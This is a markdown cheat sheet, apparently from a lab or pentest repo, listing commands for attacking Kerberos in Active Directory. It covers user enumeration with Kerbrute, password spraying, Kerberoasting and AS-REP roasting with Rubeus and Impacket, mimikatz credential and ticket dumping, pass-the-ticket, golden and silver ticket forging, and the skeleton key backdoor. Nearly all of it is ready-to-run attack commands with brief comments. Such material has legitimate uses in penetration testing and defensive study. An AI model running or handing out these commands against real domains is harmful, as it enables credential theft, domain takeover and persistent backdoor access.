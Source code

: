 # Attacking Kerberos 

## Enumeration w/ Kerbrute
```shell
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
```

## Harvesting Tickets w/ Rubeus
This command tells Rubeus to harvest for TGTs every 30 seconds
```shell
Rubeus.exe harvest /interval:30
```
## Password-Spraying w/ Rubeus
```shell
Rubeus.exe brute /password:Password1 /noticket
```
## Kerberoasting w/ Rubeus & Impacket (Local Admin Required)
It helps to crack the hash and use it with Mimikatz to create tickets.
```shell
Rubeus.exe kerberoast
```
```shell
impacket-GetUserSPNs  -dc-ip MACHINE_IP domain.local/Machine1:Password1           # Check SPNs accosiated with this machine/user.
impacket-GetUserSPNs  -dc-ip MACHINE_IP domain.local/Machine1:Password1 -request # Does a kerberoast attack
```
## AS-REP Roasting w/ Rubeus & Impacket
```shell
# check ASREPRoast for all users in current domain
.\Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>```
```
```shell
# check ASREPRoast for all domain users (credentials required)
python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# check ASREPRoast for a list of users (no credentials required)
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```
## Pass the Ticket w/ mimikatz
```shell
mimikatz.exe
privilege::debug           #Ensure this outputs [output '20' OK] (You need admin privileges)
sekurlsa::tickets /export  #This will export all of the .kirbi tickets into the directory that you are currently in.
kerberos::ptt <ticket>     #This will cache and impersonate the given ticket.
klist                      #Here were just verifying that we successfully impersonated the ticket by listing our cached tickets.
```
## Golden/Silver Ticket Attacks w/ mimikatz
Dump the krbtgt hash
```shell
mimikatz.exe
privilege::debug
lsadump::lsa /inject /name:SQLService
```
You need to change `/name:` value to the domain account/service you want.

### Create a Silver Ticket
```shell
Kerberos::golden /user:Administrator /domain:controller.local /sid:<SID> /krbtgt:<NTLM hash> /id:1103
```
### Create a Golden Ticket
```shell
Kerberos::golden /user:Administrator /domain:controller.local /sid:<SID> /krbtgt:<NTLM hash> /id:500
```
`misc::cmd` - this will open a new elevated command prompt with the given ticket in mimikatz.

`sid:` -> The sid of the service account.

`krbtgt` -> Put a service NTLM hash here.

`id` -> Put 500 to create golden tickets, change it to 1103 for silver tickets.

## Kerberos Backdoors w/ mimikatz (Skeleton Key)
```shell
mimikatz.exe
privilege::debug
misc::skeleton
```
